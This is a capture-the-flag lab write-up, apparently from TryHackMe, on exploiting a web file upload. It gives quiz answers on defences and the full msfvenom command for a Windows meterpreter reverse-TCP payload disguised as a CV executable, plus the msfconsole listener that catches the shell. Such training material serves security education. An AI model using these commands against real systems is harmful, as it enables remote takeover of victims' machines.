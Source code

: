 > What defence technique can be used to make sure the threat actor cannot recover their file again by simply using the file name?

    Answer: file renaming

> What defence technique can be used to make sure malicious files that can hurt elves are not uploaded?

    Answer: malware scanning

> If you want to learn more about vulnerabilities like this one, check out our [Intro to Web Hacking][1] module! 

    This task has no answer needed.

[1]:https://tryhackme.com/module/intro-to-web-hacking
===============================================================================

To begin, deploy both the attack-box and virtual machine.


Open firefox and navigate to `http://MACHINE_IP/`:

![](./res/protocol_hierachy.png)

Create the malicious file by running the commands from the walkthrough:  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="4444" -f exe -o cv-username.exe`

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT '4444'; exploit"`

then go to the website and upload the file while having the listener on:

![](./res/upload_file.png)

Wait a while for the reverse shell to start and you will get a meterpreter session:

![](./res/reverse_shell.png)

Run the following to get the flag:  
`cat C:\\Users\\HR_Elf\\Documents\\flag.txt`

![](./res/flag.png)

Answers to the defence techniques can be found within the walkthrough itself.
